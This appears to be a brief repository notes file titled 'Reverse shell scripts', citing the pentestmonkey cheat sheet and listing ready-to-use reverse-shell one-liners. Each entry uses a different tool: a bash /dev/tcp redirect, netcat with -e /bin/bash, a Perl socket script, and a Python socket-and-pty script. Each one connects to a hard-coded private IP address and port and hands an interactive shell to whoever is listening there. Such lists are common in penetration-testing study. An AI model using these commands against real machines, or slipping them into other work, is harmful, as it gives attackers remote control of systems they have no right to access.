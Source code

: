 # Reverse shell scripts

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Using shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

## Using Netcat
cmd=nc -nv 192.168.1.71 4444 -e /bin/bash  

## Using Perl
perl -e 'use Socket;$i="192.168.1.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

